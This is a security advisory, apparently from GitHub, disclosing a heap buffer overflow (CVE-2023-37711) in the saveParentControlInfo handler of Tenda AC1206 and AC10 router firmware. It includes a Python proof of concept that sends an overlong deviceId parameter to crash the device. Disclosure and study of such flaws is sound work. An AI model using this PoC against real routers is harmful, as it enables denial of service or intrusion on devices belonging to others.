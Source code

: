 # Tenda AC1206, AC10V1.0, AC10V4.0 Vulnerability

This vulnerability lies in the `saveParentControlInfo` function which influences the latest version of Tenda AC1206, AC10V1.0 and AC10V4.0. (The latest version is [V15.03.06.23](https://down.tenda.com.cn/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip), [V15.03.06.47](https://down.tendacn.com/uploadfile/AC10/US_AC10V1.0re_V15.03.06.47_multi_TDE.zip) and [V16.03.10.09](https://down.tendacn.com/uploadfile/AC10/AC10v4.0%20Firmware%20V16.03.10.09.zip))

## Vulnerability Description

There is a **heap buffer overflow** vulnerability in function `saveParentControlInfo`.

In function `saveParentControlInfo` it reads user provided parameter `deviceId` into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the heap buffer `s`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/saveParentControlInfo`, the attacker can easily perform a **DoS** or **RCE** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/saveParentControlInfo?"
url += "deviceId=" + "s" * 0x300
url += "&deviceName=deviceName"

response = requests.get(url)
```

## Timeline

* 2023-07-10: CVE ID assigned (CVE-2023-37711)
